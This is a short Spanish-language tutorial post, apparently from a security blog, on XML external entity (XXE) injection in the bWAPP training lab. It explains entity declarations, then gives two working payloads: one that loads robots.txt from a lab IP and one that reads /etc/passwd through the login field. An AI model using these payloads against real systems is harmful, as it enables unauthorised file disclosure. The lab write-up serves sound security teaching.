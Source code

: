 ```yaml
---
layout: post
title: bWAPP - xxe injection
subtitle: "bWAPP - xxe injection"
tags: [xml,xxe]
---
```


> **XML** (Extensible Makuo Language) es un lengaje de marcado que se usa comunmente en el desarrollo web. Se utiliza para almacenar y transportar datos.

**version**: se utiliza para especificar la versió del estandar XML que se está utilizando   
**encoding**: se declara para especificar la codificación a utilizar.  

### Que es una entidad

Son la forma de representar datos que estan presentes dentro de un documento XML.

La declaración de una entidad externa usa la palabra clave `SYSTEM` y debe especificar una `URL` desde el cual se debe cargar el valor de la entidad.

`<! ENTITY var SYSTEM "URL">`

`var`: nombre de la entidad  
`SYSTEM`: palabra clave utilizada  
`URL`: url que queremos obtener al realizar un ataque xxe  

## Ataque XXE

Interceptamos la petición de la opción `external Injection Attacks` de la aplicación `bWAPP`.

![xml](../assets/imgs/xxeb/xml.png)

Se puede observar que no hay ningun filtro aplicado por lo que es posible un XXE.  
haciendo un análisis de los campos establecidos concluyo que el campo login es inyectable.

Declaramos un `doctype` con el nombre **reset** y lugo dentro de eso declaramos una entidad llamada **bee**. Usamos el identificador de `SYSTEM` y lugo ingreo la URL de robots.txt.

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "http://192.168.0.106/bWAPP/robots.txt">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![robots](../assets/imgs/xxeb/robots.png)


**Archivo remoto**


```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "file:///etc/passwd">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![passwd](../assets/imgs/xxeb/passwd.png)
